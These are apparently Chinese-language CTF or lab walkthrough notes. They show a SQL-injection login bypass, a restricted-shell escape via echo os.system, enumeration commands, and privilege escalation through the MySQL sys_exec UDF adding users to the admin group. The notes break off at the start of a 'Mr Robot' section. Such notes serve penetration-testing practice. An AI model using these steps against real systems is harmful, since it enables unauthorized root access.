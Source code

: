## dirsearch目录扫描
扫出来sql文件 查看可以发现有个账户名叫john
### 先看看80端口有什么东西
登录界面 可以试试sql注入 用万能密码[[shell和提权#sql万能密码]]试试 加上账户名是john 可以登进去 知道了密码

### 登录ssh
检查一下能用什么东西 ls发现没有东西 

用compgen -c查看能用的命令 没这个命令

help命令 可以查看当前能用的命令

## echo逃逸
```
echo os.system("/bin/bash")
```

## 信息收集
来收集我们攻击需要的
```
id
uname -a
lsb_release -a
ps -ef
find / -name *.php
```
## 提权
### 1. mysql提权
[[shell和提权#mysql的udf逃逸]]
```
SELECT * FROM mysql.func;
 UDF（用户定义函数），叫`sys.exec`,这个可以允许从数据库内部调用系统本机代码,调用用户的权限执行，如果udf是由root命令执行，那执行的命令也是root身份
```

然后给sys.exec添加
```
SELECT sys_exec('usermod -a -G admin john');
SELECT sys_exec('usermod -a -G admin robert');
```
回去sudo su 就能成功提权

# Mr Robot
robot.txt信息泄露 wp反弹shell nmap提权
目标是获得三个key
## nmap进行扫描
访问一下80端口的网站 发现没有啥有价值的
